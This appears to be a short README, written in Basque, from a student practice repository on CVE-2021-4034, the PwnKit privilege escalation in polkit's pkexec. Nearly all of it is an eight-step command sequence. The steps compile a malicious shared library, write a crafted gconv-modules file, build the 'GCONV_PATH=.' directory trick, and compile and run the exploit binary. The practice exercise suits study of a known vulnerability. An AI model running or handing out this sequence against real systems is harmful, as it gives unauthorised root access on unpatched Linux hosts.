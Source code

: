 # DEV_Practica_CVE_2021_4034

Exploita egiteko pausoak

1. gcc -Wall -shared -fPIC -o pwnkit.so pwnkit.c

2. echo "module UTF-8// TRUKITO// pwnkit 1" > gconv-modules

3. mkdir -p GCONV_PATH=.

4. which true (gure kasuan /bin/true)

5. TRUE=/bin/true

6. cp "$TRUE" 'GCONV_PATH=./pwnkit.so:.'

7. gcc -o exploit exploit.c

8. ./exploit
